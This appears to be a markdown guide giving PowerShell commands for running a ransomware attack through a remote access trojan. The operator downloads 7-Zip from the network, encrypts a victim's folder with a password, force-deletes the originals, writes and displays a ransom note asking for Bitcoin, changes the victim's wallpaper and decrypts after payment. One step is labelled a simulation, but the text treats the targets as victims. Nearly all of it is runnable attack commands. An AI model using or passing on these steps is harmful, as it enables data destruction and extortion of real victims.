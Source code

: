 ### **Step 1: Download 7-Zip Portable on Public Machine**

Use this link to download **7-Zip Portable** (no install needed), Via PowerShell of RAT:

```powershell
Invoke-WebRequest -Uri "https://www.7-zip.org/a/7za920.zip" -OutFile "C:\Users\Public\7z.zip"
```
---

### **Step 2: Extract 7-Zip CLI Binary**

Extract the ZIP to get `7za.exe` via RAT powershell:

```powershell
Expand-Archive -Path "C:\Users\Public\7z.zip" -DestinationPath "C:\Users\Public\7z"
```

After extraction, `C:\Users\Public\7z\7za.exe` will be available.

---

### **Step 3: Compress + Lock Target Folder**

Let’s say the folder to lock is:`C:\Users\Public\Documents\SecretData`

We’ll encrypt it into `C:\Users\Public\locked.7z` with the Password: `infected123`

```powershell
& "C:\Users\Public\7z\7za.exe" a -t7z "C:\Users\Public\locked.7z" "C:\Users\Public\Documents\SecretData" -p"infected123" -mhe
```
So now the whole folder (SecretData) is encrypted into `C:\Users\Public\locked.7z`, this location.
---

### **Step 4: Delete the Original Folder (Ransomware Simulation)**

```powershell
Remove-Item -Recurse -Force "C:\Users\Public\Documents\SecretData"
```

Now the folder is gone — and the locked data is available only in `C:\Users\Public\locked.7z`
---

### **Optional step: Create a note about getting ransom**

To give the victim a message regarding how to decrypt the folder, here is an example of note creation.

```powershell
cmd.exe /c echo Your files have been encrypted! > C:\Users\Public\Documents\ransom_note.txt
cmd.exe /c echo To recover them, send 1 Bitcoin to the following address: 1A2b3C4d5E6f7G8h9I0j >> C:\Users\Public\Documents\ransom_note.txt
cmd.exe /c echo Contact: hacker@example.com >> C:\Users\Public\Documents\ransom_note.txt
```

You can show the above in the victim's monitor via the following command:

```powershell
cmd.exe /c notepad C:\Users\Public\Documents\ransom_note.txt
```

### **Optional step: Change victim's walpaper**

Upload an image from your PC via RAT upload, in a location (e.g `C:\Users\niloy\Pictures\`). Then do the following in RAT shell.

```powershell
cmd.exe /c powershell -command "(Add-Type -MemberDefinition '[DllImport(\"user32.dll\")] public static extern bool SystemParametersInfo(int uAction, int uParam, string lpvParam, int fuWinIni);' -Name NativeMethods -Namespace Win32 -PassThru)::SystemParametersInfo(20, 0, 'C:\Users\niloy\Pictures\warning.jpg', 3)"
```

### **Final step: Decrypt It after getting ransom**

If ransom is paid do the following in RAT powershell:

```powershell
& "C:\Users\Public\7z\7za.exe" x "C:\Users\Public\locked.7z" -o"C:\Users\Public\Documents\Decrypted" -p"infected123"
```
